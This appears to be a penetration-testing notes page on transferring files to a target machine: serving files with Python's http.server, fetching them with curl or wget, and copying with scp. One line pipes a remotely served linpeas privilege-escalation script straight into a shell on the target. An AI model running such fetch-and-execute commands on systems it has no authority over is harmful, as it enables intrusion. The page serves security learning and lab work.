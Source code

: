 If you haven't already got it, you'll need to [install python](https://www.python.org/downloads/). You can check if you have it by running `which python` or `which python3` in your terminal. If both come back blank, you don't have it installed correctly.

Once you have Python, start your server:

```bash
$ python3 -m http.server
```

By default, this listens on port 8000. You can change the port by specifying an unused port number after the command:

```bash
$ python3 -m http.server [PORT]
```

If you want to listen on a priveleged port (<1000) you must run with root priveleges. Running on port 80 or 443 is a common use case, as they are the default ports for HTTP/S, and sometimes target machines will only communicate on one of these default ports.

```bash
$ sudo python3 -m http.server 80
```

[Learn more about ports]

**Communicating with the Server**

You can then make a request to this server from a remote box. For example, using `curl`:

```bash
$ curl [IP]:[PORT]/example.txt
```

Or `wget`:

```bash
$ wget [IP]:[PORT]/example.txt
```

This will request the file `example.txt` from your host machine, and download it to the box. The choice of command depends on what is installed on the box.

You can also pipe the results of a `curl` directly to a shell. This is useful for running a script such as linpeas.

```bash
$ curl [IP]:[PORT]/linpeas.sh | sh
```

Make sure to kill your server when you are done. It is also good practice to start your server in a directory without any sensitive files in it - just the scripts you want to upload.

See [[Aliases#Useful Aliases|Useful Aliases]] for the `enumserve` alias, which starts a Python Server in a preset directory that is full of juicy scripts.

### Secure Copy

Use secure copy to copy a file to a server you can connect to using SSH:

```bash
$ scp /path/to/local/file [user@][SOURCE_IP]:/path/to/target/destination
```
